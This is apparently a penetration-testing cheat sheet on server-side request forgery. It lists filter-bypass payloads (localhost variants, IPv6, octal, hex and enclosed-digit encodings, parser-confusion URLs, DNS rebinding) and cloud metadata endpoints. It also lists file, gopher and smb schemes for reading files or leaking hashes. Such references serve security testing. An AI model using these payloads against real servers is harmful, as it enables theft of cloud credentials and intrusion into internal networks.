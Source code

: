 SSRF (Server-Side Request Forgery) arises when a server makes internal or external requests to third-party services without properly validating the URL schema. This can allow an attacker to access internal infrastructure, perform port scanning, and potentially leak sensitive metadata like AWS or GCP instance credentials.

## When to Test
* File fetchers (?url=)
* PDF/image converters
* Webhooks, integrations
* Import functions
* -based redirections
* Open Graph preview or link preview features
* Via Referrer 

# Common Payloads
```
http://127.0.0.1
http://127.0.0.1:80
http://localhost
127.0.0.1
localhost
http://127.1
http://127.0.0.1:{PORT}
http://[::]:80/
```
# Common Bypasses:
With [::], abuses IPv6 to exploit
 - http://[::]/
 - http://[::]:80/
 - http://0000::1/
 - http://0000::1:80/
   
With domain redirection, useful when all IP addresses are blacklisted
 - http://localtest.me
 - http://test.app.127.0.0.1.nip.io
 - httP://test.app.127.0.0.1.xip.io

**Case Sensitivy:**
  - HttP://127.0.0.1/
  - hTTp://LoCALHosT

Against weak parsers (these go to http://127.2.2.2:80)

* http://127.1.1.1:80@127.2.2.2:80/
* http://127.1.1.1:80@@127.2.2.2:80/
* http://127.1.1.1:80:@@127.2.2.2:80/
* http://127.1.1.1:80#@127.2.2.2:80/

**DNS ReBinDing:**

DNS rebinding is a technique where a domain (e.g., attacker.com) resolves to a public IP on the first request, then rebinds to a private/internal IP (like 127.0.0.1) on the second. This tricks the server/browser into making requests to internal services, bypassing IP-based protections.

Use case:
Bypass SSRF filters that only allow external domains.

Example:
attacker.com → 123.123.123.123 → 127.0.0.1

## IP Encoding Tricks

### **Punycode Varients:**
* http://①②⑦.⓪.⓪.①/
* http://⓵⓶⓻.⓪.⓪.⓵/

### **IPv6 Format**

Use IPv6-mapped IPv4 address:

http://[::ffff:127.0.0.1]/

### **Octal**

Each octet in octal (prefix 0):

0177.0000.0000.0001

### **Hexadecimal**

Each octet in hex (prefix 0x):
0x7f.0x00.0x00.0x01

Or full IP as one hex:
0x7f000001

# Targets of Interest
## Cloud metadata:

* AWS: http://169.254.169.254/latest/meta-data/
* GCP: http://metadata.google.internal/computeMetadata/v1/
* Azure: http://169.254.169.254/metadata/instance

## Internal services:

* http://localhost:8000/
* http://redis:6379
* http://internal-dashboard/

**Different Protocals To exfiltrate Information:**

* file:// → read local files
* ftp:// → trick server into sending file contents
* gopher:// → send custom TCP payloads (e.g., Redis injection)
* smb:// → exfiltrate NTLM hash
* dict:// → detect open ports
* http:// → access internal web apps and metadata services
* ldap:// → interact with internal LDAP services
* telnet:// → connect to telnet ports
* mysql:// → trigger DB connections if drivers are enabled



  




